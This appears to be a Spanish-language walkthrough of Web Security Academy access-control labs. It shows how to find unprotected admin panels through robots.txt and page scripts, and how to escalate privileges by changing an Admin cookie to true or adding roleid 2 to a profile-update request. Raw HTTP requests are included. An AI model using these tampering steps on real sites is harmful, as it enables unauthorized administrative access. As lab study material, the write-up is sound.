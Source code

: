 # Unprotected admin functionality

Para este laboratorio revisamos el archivo /robots.txt nos damos cuenta que tiene una entrada disallow para
que no indexar las rutas del panel de administracion pero esta no esta protegida contra otras cosas esta
sin proteccion.

```
/robots.txt
https://0a1b0020048158d2c00f577b00ea00e8.web-security-academy.net/administrator-panel

```

# Unprotected admin functionality with unpredictable URL

Para este laboratorio se tiene que encontrar un script que si esta en true genera una ancla y pone ahi el link y no esta protegido
pero lo puedes intuir sin modificar el script entrar y borras el usuario de carlos y resuleves el lab


```
https://0a01008a0387d145c0fc097500f2008b.web-security-academy.net/admin-6eu67g

```

# User role controlled by request parameter

## How To Write Burp Suite Match and Replace Rules

> https://matthewsetter.com/write-burp-suite-match-and-replace-rules/


Para este laboratorio se usa esto de remplazar la cookie por Admin=true; para no estar modfiicando manuealmente
nos vamos a ***Pestala intercept -> Options -> Match and Remplace -> add -> Admin=false por Admin=true;***
y todas la peticiones donde encuentre eso va aponer true lo que nos hace automaticamente 
administradores y se resuleve el lab.

```
GET /my-account?id=wiener HTTP/1.1
Host: 0a8700bf033e511cc0440b7100e9000e.web-security-academy.net
Cookie: Admin=false; session=v9olK9hh4BJfTzIJbp7xmKOkKWDLT2fB
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8700bf033e511cc0440b7100e9000e.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close



```

# User role can be modified in user profile

Para este laboratorio tienes que checar que en cambiar email pero en la ***respuesta*** viene un roleid de 1 si lo cambias 
a 2 se activa el accso al panel de adminsitrador.

```
HTTP/1.1 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 125

{
  "username": "wiener",
  "email": "asdfahskldf@gmail.com",
  "apikey": "voVlkpFjjPYwDjt3rh4jZ6VGhuDrS7Pf",
  "roleid": 2
}

```

Y lo que mandas es esto

```
POST /my-account/change-email HTTP/1.1
Host: 0a2a005f03a21519c06c546f000e003b.web-security-academy.net
Cookie: session=OyyXUyKR5MXT6dLK4e7H6Q2ZLUMLnHeu
Content-Length: 47
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a2a005f03a21519c06c546f000e003b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2a005f03a21519c06c546f000e003b.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

{"email":"asdfahskldf@gmail.com","roleid": 2
}

```






















